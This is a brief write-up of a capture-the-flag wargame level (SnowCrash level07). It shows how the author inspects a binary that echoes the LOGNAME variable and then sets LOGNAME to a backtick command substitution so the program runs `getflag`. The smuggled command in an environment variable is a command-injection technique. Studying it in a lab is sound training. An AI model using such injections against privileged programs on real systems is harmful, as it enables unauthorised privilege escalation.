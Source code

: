# Find the password of Flag07

## First check :
Home directory : \[✓\] not empty.

We found 1 executable file `./level07`

## Run it :
It printed its name.
Maybe if we modify it we could inject a command ?
```
chmod 777 .
mv level07 executemepls
./executemepls
> level07
```
We expected the output to change but it was negative, so, let's do it as before.

## Binary ? hexdump !

In the hexdump we noticed that it `echo` the value of the `env variable 'LOGNAME'`

```
export LOGNAME=\`getflag\`
./level07
```

## TADAAAAAAA, It's ... 
[The next level flag](https://github.com/XD-OB/snowcrash/blob/master/level07/flag)

_tobecontinued_